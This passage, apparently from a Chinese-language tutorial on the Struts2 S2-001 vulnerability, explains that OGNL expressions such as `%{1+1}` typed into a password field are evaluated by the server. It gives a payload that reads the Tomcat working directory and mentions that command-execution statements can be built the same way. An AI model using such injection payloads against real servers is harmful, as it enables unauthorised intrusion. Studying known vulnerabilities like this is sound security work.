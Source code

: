 然而当我们在密码框处输入这样一个字符串时`%{1+1}`（`%`需编码）会被解析成2

![](从零开始学习struts2-S2-001\9.png)

从而利用这一特性，可以构造一些命令执行语句

获取tomcat路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![](从零开始学习struts2-S2-001\10.png)
